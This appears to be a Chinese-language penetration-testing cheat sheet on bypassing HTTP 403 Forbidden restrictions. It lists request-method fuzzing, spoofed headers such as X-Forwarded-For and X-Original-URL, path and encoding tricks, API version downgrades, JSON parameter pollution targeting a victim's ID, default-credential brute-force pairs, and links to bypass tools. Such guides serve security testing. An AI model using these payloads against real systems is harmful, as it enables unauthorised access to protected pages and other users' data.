 ## 403页面绕过技巧(先分享技巧和工具，后面分享实战报告)
### 1.什么是403？
作为普通用户，我们没有访问特定网页的权限（只能管理员等访问），所以当我们尝试访问该类型的网站时，它会给我们返回 403 forbidden。

### 什么是403绕过？
绕过 403 Forbidden Error 表示客户端能够与服务器通信，但服务器不允许客户端访问所请求的内容。
### 2.HTTP 请求方法fuzz
尝试使用不同的请求方法来访问：` GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK `


### 3.HTTP 标头fuzz
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost
```
如果路径受到保护，您可以尝试使用这些其他标头绕过路径保护：
```
X-Original-URL: /admin/console
X-Rewrite-URL: /admin/console
```
### 4.路径fuzz
1. 尝试使用 /%2e/path _（如果访问被代理阻止，这可能会绕过保护），也可以试试_** /%252e**/path（双 URL 编码）
2. 尝试 Unicode 绕过：/%ef%bc%8fpath
#### 其他路径绕过：
```
site.com/secret –> HTTP 403 Forbidden
site.com/SECRET –> HTTP 200 OK
site.com/secret/ –> HTTP 200 OK
site.com/secret/. –> HTTP 200 OK
site.com//secret// –> HTTP 200 OK
site.com/./secret/.. –> HTTP 200 OK
site.com/;/secret –> HTTP 200 OK
site.com/.;/secret –> HTTP 200 OK
site.com//;//secret –> HTTP 200 OK
site.com/secret.json –> HTTP 200 OK 
```
其他api绕过
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
{"user_id":"<legit_id>","user_id":"<victims_id>"} (JSON 参数污染)
user_id=ATTACKER_ID&user_id=VICTIM_ID (参数污染)
```
## 更换协议版本
如果使用 HTTP/1.1，请尝试使用 1.0，或者测试看它是否支持 2.0。
## 暴力破解
```
admin    admin
admin    password
admin    1234
admin    admin1234
admin    123456
root     toor
test     test
guest    guest
```
## 自动化工具使用
1. https://github.com/lobuhi/byp4xx
2. https://github.com/iamj0ker/bypass-403
3. https://github.com/gotr00t0day/forbiddenpass
4. Burp扩展：https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122





